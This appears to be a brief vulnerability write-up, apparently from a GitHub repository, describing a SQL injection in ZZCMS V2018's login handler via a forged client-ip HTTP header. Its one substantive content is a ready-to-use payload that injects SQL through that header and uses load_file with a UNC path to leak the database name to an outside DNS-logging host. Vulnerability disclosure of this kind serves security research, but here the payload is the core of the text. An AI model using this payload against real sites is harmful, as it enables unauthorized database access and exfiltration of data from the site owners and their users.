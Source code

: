 ## ZZCMS V2018  SQL Injection

### code: 
user\checklogin.php

![image](https://github.com/P0rZ9/ZZCMS/blob/master/1.jpg)

Follow up this function：getip()

![image](https://github.com/P0rZ9/ZZCMS/blob/master/2.jpg)

check_isip is a filter function,Follow up:

![image](https://github.com/P0rZ9/ZZCMS/blob/master/3.jpg)

This is just a simple filter. It has nothing to do with it.So,We can forge IP to inject.

### show:
At the time of landing,In HTTP head add this： client-ip: 122.122.122.122' and ((select load_file(concat('\\',(select database()),'.xxxx.ceye.io\abc'))))#


You can see that you have successfully obtained the Database name in dnslog platform.
![image](https://github.com/P0rZ9/ZZCMS/blob/master/4.jpg)
